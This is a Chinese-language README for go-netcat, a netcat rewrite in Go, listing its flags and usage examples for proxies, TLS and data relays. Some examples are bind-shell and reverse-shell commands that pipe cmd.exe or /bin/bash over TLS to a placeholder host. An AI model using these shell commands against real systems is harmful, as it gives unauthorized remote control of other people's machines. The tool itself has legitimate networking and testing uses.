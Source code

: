 ## go-netcat 简介
   golang版 netcat
   
## 使用方法
```
Usage of ./gonc:
  -C    enable CRLF
  -auth string
        user:password (for SOCKS5 proxy)
  -bind string
        ip:port
  -exec string
        runs a command for each connection
  -inprogress
        show transfer progress
  -keep-open
        keep listening after client disconnects
  -l    listen mode
  -outprogress
        show transfer progress
  -pty
        <-exec> will run in a pseudo-terminal, and put the terminal into raw mode
  -s5 string
        ip:port (SOCKS5 proxy)
  -sendfile string
        path to file to send (optional)
  -sni string
        specify TLS SNI
  -stderr
        when -exec, Merge stderr into stdout
  -tls
        Enable TLS connection
  -tls10
        force negotiation to specify tls version
  -tls11
        force negotiation to specify tls version
  -tls12
        force negotiation to specify tls version
  -tls13
        force negotiation to specify tls version
  -u    use UDP protocol
```

## 例子

- 支持使用socks5代理

    `gonc.exe -s5 s.s.s.s:port x.x.x.x 1234`

- 支持监听或反弹shell
    
    监听

    `gonc.exe -tls -keep-open -exec cmd.exe -stderr -l 1234`

    反弹

    `gonc.exe -tls -exec cmd.exe -stderr x.x.x.x 1234`

- 类UNIX支持pseudo-terminal shell 

    监听

    `gonc -tls -pty -exec /bin/bash -l 1234`

    连接获得shell(windows和linux都支持console raw模式，该模式下支持TAB、ctrl+c等输入)

    gonc.exe -tls -pty x.x.x.x 1234

- 还可以像socat那样建立左右两个通道转发数据

    `gonc.exe -keep-open -exec "./gonc -tls www.baidu.com 443" -l 8000`
    
    另一端用

    `gonc.exe 127.0.0.1 8000 > NUL`

- 发送和统计传输速度，内置/dev/zero和/dev/urandom实现，这样windows下也可以用/dev/zero和/dev/urandom

    `gonc.exe -sendfile /dev/zero -outprogress x.x.x.x 1234`

    `13040386048 bytes (12.1 GiB) copied, 00:00:04, 2.6 GiB/s`

    另一端用

    `gonc.exe -l 1234 > NUL`
